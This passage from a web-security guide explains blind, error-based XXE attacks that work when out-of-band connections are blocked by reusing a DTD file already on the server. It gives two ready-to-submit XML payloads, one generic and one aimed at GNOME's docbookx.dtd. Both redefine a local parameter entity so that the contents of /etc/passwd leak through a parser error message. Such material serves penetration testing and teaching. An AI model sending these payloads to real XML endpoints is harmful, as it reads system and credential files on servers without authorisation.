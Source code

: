 So what about blind XXE vulnerabilities when **out-of-band interactions are blocked** (external connections aren't available)?.

A loophole in the XML language specification can **expose sensitive data through error messages when a document's DTD blends internal and external declarations**. This issue allows for the internal redefinition of entities declared externally, facilitating the execution of error-based XXE attacks. Such attacks exploit the redefinition of an XML parameter entity, originally declared in an external DTD, from within an internal DTD. When out-of-band connections are blocked by the server, attackers must rely on local DTD files to conduct the attack, aiming to induce a parsing error to reveal sensitive information.

Consider a scenario where the server's filesystem contains a DTD file at `/usr/local/app/schema.dtd`, defining an entity named `custom_entity`. An attacker can induce an XML parsing error revealing the contents of the `/etc/passwd` file by submitting a hybrid DTD as follows:

```xml
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
    <!ENTITY % custom_entity '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
```

The outlined steps are executed by this DTD:

- The definition of an XML parameter entity named `local_dtd` includes the external DTD file located on the server's filesystem.
- A redefinition occurs for the `custom_entity` XML parameter entity, originally defined in the external DTD, to encapsulate an [error-based XXE exploit](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages). This redefinition is designed to elicit a parsing error, exposing the contents of the `/etc/passwd` file.
- By employing the `local_dtd` entity, the external DTD is engaged, encompassing the newly defined `custom_entity`. This sequence of actions precipitates the emission of the error message aimed for by the exploit.

**Real world example:** Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```
